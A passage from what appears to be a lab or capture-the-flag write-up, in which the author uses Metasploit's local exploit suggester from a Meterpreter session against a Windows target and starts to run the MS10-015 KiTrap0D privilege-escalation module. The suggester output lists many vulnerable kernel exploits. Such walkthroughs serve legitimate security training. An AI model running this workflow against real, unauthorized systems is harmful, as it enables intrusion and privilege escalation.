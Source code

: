 I don't love relying on Metasploit, but one thing that it definitely
makes easier is Windows kernel exploits. I'll background my meterpreter
session so I can use the exploit suggester to quickly look for potential
privescs, and it returns several options:



    msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester

    msf5 post(multi/recon/local_exploit_suggester) > set session 1
    session => 1

    msf5 post(multi/recon/local_exploit_suggester) > options 

    Module options (post/multi/recon/local_exploit_suggester):

       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       SESSION          1                yes       The session to run this module on
       SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

    msf5 post(multi/recon/local_exploit_suggester) > run

    [*] 10.10.10.5 - Collecting local exploits for x86/windows...
    [*] 10.10.10.5 - 29 exploit checks are being tried...
    [+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
    [+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
    [+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    [*] Post module execution completed



### MS10-015

I'll give `exploit/windows/local/ms10_015_kitrap0d` a run.



    msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
    msf5 exploit(windows/local/ms10_015_kitrap0d) > options
